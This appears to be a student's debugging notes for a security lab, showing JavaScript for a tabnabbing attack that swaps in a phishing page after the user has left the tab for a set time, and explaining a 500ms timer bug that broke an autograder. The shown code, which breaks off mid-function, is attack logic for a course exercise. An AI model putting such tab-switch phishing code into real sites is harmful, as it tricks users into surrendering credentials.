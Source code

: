 ```javascript
var t = 0;
var a = 0;

function startTimer() {
  setInterval(function () {
    if (a) {
      t++;
      if (t >= 60) {
        // WRONG!
        loadPhishingPage();
      }
    }
  }, 500); // 500ms interval
}
```

**Problem:** With a 500ms interval, `t >= 60` means `60 * 500ms = 30 seconds`, not 60 seconds!

**What happened:**

```
t=0:     User switches away
t=500ms: t=1
t=1000ms: t=2
t=1500ms: t=3
...
t=30000ms (30 seconds): t=60, phishing page loads
t=60000ms (60 seconds): Bot returns, but page already loaded at 30s!

Result: Autograder failed - timing was off by 50%
```

## Debugging Session

I added extensive debug logging to understand what was happening:

```javascript
function handleVisibilityChange() {
  if (document.hidden) {
    fetch("/receive/gguruvelli3/2065", {
      method: "POST",
      body: "debug=Tab hidden - starting away timer",
    });
    isAway = true;
    startAwayTimer();
  } else {
    fetch("/receive/gguruvelli3/2065", {
      method: "POST",
      body: "debug=Tab visible - stopping timer, timeAway was: " + timeAway,
    });
    isAway = false;
    timeAway = 0;
    if (awayTimer) {
      clearInterval(awayTimer);
    }
  }
}

function startAwayTimer() {
  if (awayTimer) clearInterval(awayTimer);

  awayTimer = setInterval(function () {
    if (isAway) {
      timeAway++;

```